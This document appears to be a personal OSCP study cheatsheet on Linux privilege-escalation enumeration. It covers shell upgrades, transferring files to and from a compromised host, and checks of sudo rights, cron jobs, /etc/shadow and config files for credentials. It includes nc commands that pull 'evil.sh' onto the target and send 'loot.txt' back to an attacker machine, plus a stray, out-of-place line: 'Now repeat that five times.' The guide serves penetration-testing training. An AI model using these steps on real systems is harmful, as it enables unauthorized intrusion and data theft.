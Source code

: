 # Linux Enumeration

I will do **Manual Enumeration** before running LinPEAS or lse or pspy. 

Now repeat that five times.

Many OSCP boxes are designed in a way where linPEAS will not pick the PE up. But still run it once you are done with the checks below.

I assumed you got some kind of shell on a linux host. If it is a shell from a webshell, try upgrading to a more stable shell by popping one with nc (which should be native on a linux host) or a msfvenom payload. Also do the following to upgrade a shell to tty using python (or python3)

```bash
# on the target host
which python python2 python3 # check which python exist. Then use the relevant version below

python -c "import pty;pty.spawn('/bin/bash');"

python3 -c "import pty;pty.spawn('/bin/bash');"

python3 -c 'import os; os.system("/bin/sh");

```

## How to transfer files from Kali to Linux

Navigate to your tools folders and run the following (I like port 80 since it is highly likely that the target box will not have port 80 blocked)

```bash
python -m http.server 80
```

Back on your target box, navigate to a folder that you should have write and execute access.

I like using /tmp, /dev/shm, /var/tmp (default global writable directories) or if you land a shell as a user, you can use that user's home directory.

```bash
wget http://<kali ip>/<file>
```

On the off chance that you somehow cant use wget, check if your current user has its path variables set correctly

```bash
# on the target

echo $PATH 

# In general, should look something like this: /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games
# if somehow this is empty then just set the Path variable

export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games

echo $PATH # to verify

```

Ok I really dont have wget! So what now? If you ssh-ed into the host, you can use scp (Secure Copy Paste)

```bash
# on your kali

scp [OPTIONS] [[user@]src_host:]file1 [[user@]dest_host:]file2

OPTIONS
-r recursive copy
-q quiet mode

For files we can use wildcard such as *.php

# if need diff port and id_Rsa keys, put them in front for it to work

# the below examples uses id_rsa to login and transfers linpeas.sh from kali to the /home/anita path

scp -P 2222 -i id_rsa linpeas.sh anita@192.168.208.245:/home/anita

```

If not SSH, you can always see the ancient method of using nc to file transfer.

Transferring evil.sh from kali to target
```bash
# on kali
nc -lvnp 80 < evil.sh
# on target
nc <kali ip> 80 > evil.sh
```
Transferring loot.txt from target to kali
```bash
# on kali
nc -lvnp 80 > loot.txt
# on target
nc <kali ip> 80 < loot.txt
```

-------------------
## Checking for the Quick Wins

1) The first few commands you SHOULD ALWAYS RUN is this:

```bash
# check your group
id
# check your history
history
# check your sudo powers
sudo -l
# check your environment variables
env
```

If you see groups like docker, backup, disk, adm, or anything that is just not your username. These are things that are either PE vectors or things you should investigate as being in those groups can give you certain powers. Note down!

sudo -l can reveal quick wins and more often than not THE PE vector. 

env to check for hardcoded credentials

2) Check Kernel Version. IF it looks ancient, then it might be a kernel exploit

```bash
uname -a 
cat /etc/os-release
```

3) Next is user enumeration and user home directories enumeration

```
cat /etc/passwd

ls -la /etc/passwd /etc/shadow  # might as well see if you can write to passwd or read shadow for an easy win

# ls -laRH lists all files recursively (including hidden) and outputs in human readable form. This is a godly command to quickly spider down directories

# you ls -laRH /home so that you can quickly see what files are in each user's directory (provided you can access them)

ls -laRH /home
```

4) Next thing you should do is to enumerate the world writable directories. Any thing inside that is not default should be investigated.

```bash
ls -la /tmp /opt /dev/shm /var/tmp
# the below command searches for all world writable directories. Any non default directories are worth investigating
find / -writable -type d 2>/dev/null
```

5) Check out the cron jobs. Do note that your user may not have privs to see root's cron jobs so a lack of results does not necessary mean that there is no cron jobs! 

```bash
crontab -l # this checks your own cron jobs. Usually there is nothing and plus you cant really elevate from this.
ls -lah /etc/cron.d
cat /etc/crontab
# the below might output information that pspy somehow misses. I am not sure why
systemctl status cron
```

6) Last thing you should do is to check out /var/www/html if there are web services. What you are looking for are config files that may contain hard-coded credentials. You can use the find command to look for things

```bash
find / -name *.conf, *.yml -type f 2>/dev/null
# this searches for a particular string in all files recursively from the specified directory. Might take a while to run though
grep -Horn <text> <dir>
```

## No Shell but can read files via webshell or some other blackmagic

https://idafchev.github.io/enumeration/2018/03/05/linux_proc_enum.html

```bash
# if you have Remote File Read (but cant get a shell you can use the following method)

/proc/self/cmdline

/proc/<pid>/cmdline # can write a simple script to iterate through all PIDs

/proc/sched_debug
```

## AutoEnum

for lse.sh I find good results with the following command which is more verbose than the basic version

```bash
./lse.sh -l1
```

for pspy, do add the following flag. Run pspy if you suspect that root is running some cron job that you cant see from your current user's permission.

This is similiar to scheduled tasks in Windows where if your user may not be privileged enough to see root cron jobs even after you check out /etc/crontab

```bash
./pspy64 -pf  # run -f to see file commands  such as cd or else you will miss stuff!

# let it run a couple of minutes just to see if there is anything
```